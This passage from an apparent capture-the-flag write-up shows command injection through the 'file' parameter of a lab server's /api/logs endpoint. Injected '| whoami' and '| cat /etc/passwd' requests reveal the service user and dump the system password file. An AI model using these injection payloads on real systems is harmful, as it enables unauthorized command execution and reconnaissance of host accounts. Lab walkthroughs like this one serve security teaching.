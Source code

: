 Before we move forward, let's just figure out a bit more about the environment we're running in here.

If we request

```
http://10.10.11.120:3000/api/logs?file=| whoami
```

we can figure out that the user that's running the API process is called `dasith`.

Next let's try getting `/etc/passwd`. We'll request

```
http://10.10.11.120:3000/api/logs?file=| cat /etc/passwd
```

and we get back this (I converted the `\n` characters to newlines)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
dasith:x:1000:1000:dasith:/home/dasith:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mongodb:x:113:117::/var/lib/mongodb:/usr/sbin/nologin
```
